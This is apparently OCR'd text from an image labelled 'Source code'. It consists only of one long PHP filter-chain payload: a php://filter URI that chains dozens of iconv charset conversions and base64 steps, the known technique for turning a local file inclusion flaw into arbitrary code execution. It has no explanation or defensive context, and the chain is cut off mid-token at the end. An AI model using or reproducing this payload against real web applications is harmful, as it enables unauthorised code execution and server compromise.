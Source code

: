```bash
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-
```